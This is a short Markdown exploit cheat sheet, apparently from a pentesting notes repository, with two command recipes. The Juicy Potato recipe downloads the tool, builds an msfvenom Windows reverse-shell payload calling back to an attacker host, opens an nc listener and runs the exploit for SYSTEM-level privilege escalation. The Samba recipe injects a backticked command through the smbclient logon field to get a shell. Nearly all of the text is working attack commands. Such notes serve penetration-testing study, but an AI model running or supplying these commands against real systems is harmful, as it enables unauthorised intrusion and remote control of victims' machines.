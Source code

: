 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/exploit.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/exploit.md#juicy-potato">Bottom of Page</a>
</p>

# Cheatsheets - Exploits
## Table of Contents
* [Juicy Potato](#juicy-potato)
* [Shell via Samba Logon Command](#shell-via-samba-logon-command)

## Juicy Potato
```bash
# download Juicy Potato
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

# upload Juicy Potato
# ftp, smb, http, etc.

# create a reverse shell and then upload it to the target
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o reverse-shell.exe
sudo nc -nvlp $LPORT

# use Juicy Potato to execute your reverse shell
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```

## Shell via Samba Logon Command
```bash
mkdir /mnt/$TARGET
sudo mount -t cifs //$TARGET/$SHARE /mnt/$TARGET
sudo cp $EXPLOIT /mnt/$TARGET
smbclient //$TARGET/$SHARE
logon "=`$EXPLOIT`"
```
